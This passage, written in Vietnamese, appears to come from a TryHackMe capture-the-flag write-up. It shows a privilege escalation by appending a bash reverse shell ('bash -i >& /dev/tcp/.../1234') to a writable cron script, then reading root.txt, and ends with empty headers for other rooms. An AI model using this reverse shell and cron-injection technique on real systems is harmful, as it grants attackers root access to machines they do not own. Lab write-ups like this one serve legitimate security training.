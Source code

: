 ![image](https://github.com/manhhuy2002/Writeup/assets/104350480/559f9e2e-76fa-44e4-9a2b-dabeaf80d669)

Cả 2 đều không có gì để leo thang được

Tiếp đến là check cronjob: 

![image](https://github.com/manhhuy2002/Writeup/assets/104350480/612d5a68-6f3c-4270-91d6-feb94bfa7826)

É ta có thể leo thang ở đây với cronjob, cụ thể là file .mysecretcronjob.sh

Ta thực thi revershell, mở nc với port 1234, sau đó truyền shell vào file này bằng cách dùng nano hoặc echo >> cũng được
> bash -i >& /dev/tcp/110.8.84.31/1234 0>&1

![image](https://github.com/manhhuy2002/Writeup/assets/104350480/0ba71ea4-f59b-4e1a-8eba-f1aef1f71f19)

Tìm root.txt và cat là được flag: 

![image](https://github.com/manhhuy2002/Writeup/assets/104350480/51ca4a30-fcfa-4390-a018-4dd38166437f)


## [Brooklyn Nine Nine](https://tryhackme.com/room/brooklynninenine)<a name='bnn'></a>

## [Net Sec Challenge](https://tryhackme.com/room/netsecchallenge)<a name='nsc'></a>

## [Anonymous](https://tryhackme.com/room/anonymous)<a name='a'></a>
